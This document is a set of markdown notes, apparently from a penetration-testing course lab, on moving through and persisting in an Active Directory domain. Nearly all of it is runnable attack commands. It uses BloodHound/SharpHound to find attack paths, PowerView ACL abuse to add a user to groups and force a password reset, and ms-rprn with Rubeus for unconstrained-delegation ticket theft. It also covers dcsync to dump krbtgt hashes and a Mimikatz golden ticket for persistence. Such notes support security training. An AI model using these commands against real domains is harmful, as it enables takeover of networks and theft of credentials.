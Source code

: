 # Movement, Pivoting and Persistence in Domain

* ```Bloodhound``` used to visualize domain, its objects and relations between them:

  ```shell
  # upload sharphound.exe to victim system through shell

  sharphound.exe -c all
  # uses all collection methods
  # this creates a .zip file, which needs to be downloaded to attacker system

  # in attacker
  # start neo4j
  neo4j console

  bloodhound
  # runs and opens bloodhound in browser
  # use neo4j creds

  # drag and drop downloaded zip file in bloodhound gui
  ```

* In ```Bloodhound```, we can use the prebuilt queries to explore the relationships; queries like ```Find Shortest Paths to Domain Admins``` can be vital.

* Under any group, we can view the ```Abuse Info``` section under Help to get tips on privesc.

* Abusing ACLs:

  ```ps
  # upload Powerview to victim

  . .\powerview.ps1
  # load Powerview

  net user s.chisholm /domain
  # get domain info for victim user
  # based off of bloodhound info

  # this user is part of Sales
  # which has GenericAll relation to Engineering

  net group engineering s.chisholm /add /domain
  # add user to Engineering
  # this group has GenericAll to another group

  net group "IT ADMINS" s.chisholm /add /domain
  # add user to another group

  # this group has GenericAll relation to particular user
  # we can use Force Change Password method

  $SecPassword = ConvertTo-SecureString 'FallOutBoy1!' -AsPlainText -Force
  # store password of current user in variable

  $cred = New-Object System.Management.Automation.PSCredential('mayorsec\s.chisholm', $SecPassword)

  $UserPass = ConvertTo-SecureString 'NewPassword1!' -AsPlainText -Force
  # new password for target user

  Set-DomainUserPassword -Identity j.taylor -AccountPassword $UserPass -Credential $cred
  # force change password for user 'j.taylor'

  net user j.taylor /domain
  # part of Administrators

  Enter-PSSession -ComputerName dc01 -Credential mayorsec\j.taylor
  # enter remote PS session
  # we now have a session as j.taylor

  # this user, as part of Administrators, has WriteDacl to Domain Admins group
  # we can abuse that

  net group "Domain Admins" j.taylor /add /domain

  net group j.taylor /domain
  # part of Domain Admins now
  ```

* In ```Bloodhound```, the query ```Shortest Paths to Unconstrained Delegation Systems``` shows us how to exploit unconstrained delegation - for this to work, the target system needs to have the ```TrustedForDelegation``` property set to True:

  ```ps
  # assuming we have shell already on target system
  # in Covenant
  # upload ms-rprn.exe tool and PowerView

  powershell get-netcomputer -unconstrained -properites dnshostname
  # check for systems with unconstrained delegation

  shell ms-rprn.exe \\dc01 \\workstation-02
  # where dc01 is the target and workstation-02 is the current system

  rubeus dump /service:krbtgt
  # dumps ticket

  maketoken administrator mayorsec randompass
  # token impersonation

  rubeus ptt /ticket:<ticket>
  # use ticket found from the dump earlier
  # pass the ticket

  # domain admin

  dcsync mayorsec\krbtgt
  # dumps krbtgt hashes
  ```

* Golden ticket persistence:

  ```ps
  # after getting domain admin
  # upload invoke-mimikatz.ps1 and powerview.ps1 tools

  . .\powerview.ps1

  get-domainsid
  # reqd for ticket attack

  . .\invoke-mimikatz.ps1

  Invoke-Mimikatz -Command '"kerberos::golden /user:administrator /domain:mayorsec.local /sid:<domain SID> /krbtgt:<NTLM hash for krbtgt> /ptt"'
  # full admin priv by pass the ticket

  ls \\dc01\C$
  # verify admin priv
  ```
